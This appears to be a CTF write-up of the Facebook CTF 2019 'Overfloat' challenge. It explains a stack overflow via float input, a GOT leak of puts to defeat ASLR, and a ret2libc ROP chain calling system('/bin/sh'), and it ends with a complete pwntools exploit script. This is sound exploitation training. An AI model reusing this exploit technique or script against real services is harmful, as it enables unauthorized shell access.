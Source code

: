 ```yaml
---
title: Facebook CTF 2019 Overfloat
author: megachar0x01
date: 2022-07-11
categories: [Binary Exploitation, nightmare, module08]
---
```


### Purpose : Get shell on system 

[![asciicast](https://asciinema.org/a/507984.svg)](https://asciinema.org/a/507984)

Let's start by checking restrictions on binary.

<img src="https://i.imgur.com/wQps0v7.png" alt="img_1">

Only Stack is not executable which kills the possibility of putting shellcode in vuln_buffer and jumping to it.

Start reversing by analyzing the main function. We can see that usage of settbuff functions so binary works correctly with network sockets. Then puts print ASCII art. Memset function  is used to clear out an array with zero. Pass pointer of Char array to "chart_course " function. Then msg is printed and the function exits.


<img src="https://i.imgur.com/VS2hi0h.png" alt="img_2">


Now it's time to analyze the chart_course function. Loop is created which can only be exited if the user inputs "done". This loop is overflowing as we will be seeing in a minute. We can ignore some parts of the code as it is printing "LAT" on even and "LON" on odd. fget function is used to take take "100" bytes input from the user and store it in local_78. Next, we see first 4 bytes are taken from the local_78 variable and compared to the "done" string if compare is successful function is exited, and if not rest of the code carries on. As we go down we can see atof function is used to convert a string into float and then save it in dvar2 (This part will be important while building an exploit because it controls what is placed on the stack ). dvar2 value is saved to local_10. memset is used to clear values in dvar2. This part is important because be Attentive address of char_array is incremented on every loop by 4 bytes using the loop counter multiplied by 4 and then local_10 content is saved on that address. This part is which creates buffer overflow as no checks are placed.


<img src="https://i.imgur.com/ScXigbq.png" alt="img_3">


Now it's time to start building an exploit. To bypass aslr and create a rop chain we have to find libc base address. For calculating base address we leak puts address from got and then subtract from the offset of puts to get base_address then transfer execution to the main function. This time exploiting the same vuln we can get shell we have to create a rop chain to call system function while passing "/bin/sh" strings. It's all ez most important and the time-consuming thing was building format function. As I stated earlier atof function converts float value in string form to float data type as all this is handled in flu (special register xmm0,ymm0,zmm0 for floating-point arithmetic ). So when values from special registers are placed on memory are in hex form. To put what hex values should be placed on memory I came up with this idea (it barely does its work there will be  a better way to solve this issue ).



```python
#!/usr/bin/python3 
from pwn import *
import struct

def start(argv=[], *a, **kw):
    if args.GDB:  # Set GDBscript below
        return gdb.debug([exe] + argv, gdbscript=gdbscript, *a, **kw)
    elif args.REMOTE:  # ('server', 'port')
        return remote(sys.argv[1], sys.argv[2], *a, **kw)
    else:  # Run locally
        return process([exe] + argv, *a, **kw)

# Specify GDB script here (breakpoints etc)
gdbscript = '''

continue
'''.format(**locals())


exe = './overfloat'; elf = context.binary = ELF(exe, checksec=False);exe_rop = ROP(exe,checksec=False)
libc = ELF(" <add full path to libc > ",checksec=False)
ld = ELF(" <add full path to ld > ",checksec=False)

######### hardcode ########

plt_puts = elf.plt['puts'] 
got_puts =  elf.got['puts'] 
pop_rdi = exe_rop.find_gadget(['pop rdi','ret'])[0] 
main = elf.symbols['main'] 
ret = exe_rop.find_gadget(['ret'])[0] 

###########################


def format(recv_value):
    x = bytes(str(struct.unpack("f",(p64(recv_value)[4:8]))).strip("(").strip(",)"),"utf-8")
    y = bytes(str(struct.unpack("f",(p64(recv_value)[0:4]))).strip("(").strip(",)"),"utf-8")
    io.sendlineafter(b"]:",y)
    io.sendlineafter(b"]:",x)

def leak_value():
    for x in range(7):
        format(0x0000000000000000)
    format(pop_rdi)
    format(got_puts)
    format(plt_puts)
    format (main)
    io.sendlineafter(b"]:",b"done")
    io.recvline()
    raw = io.recvline().strip(b"\n")
    leak_add = u64(raw + b"\x00"*(8-len(raw)))
    libc.address = leak_add - libc.symbols['puts']
    print("leak value",hex(libc.address))

def exploit():
    for x in range(7):
        format(0x4242424242424242)
    format(pop_rdi)
    format(next(libc.search(b"/bin/sh")))
    format(ret)
    format(libc.symbols['system'])   
    io.sendlineafter(b"]:",b"done")

io = start()

leak_value()

exploit()

io.interactive()

```

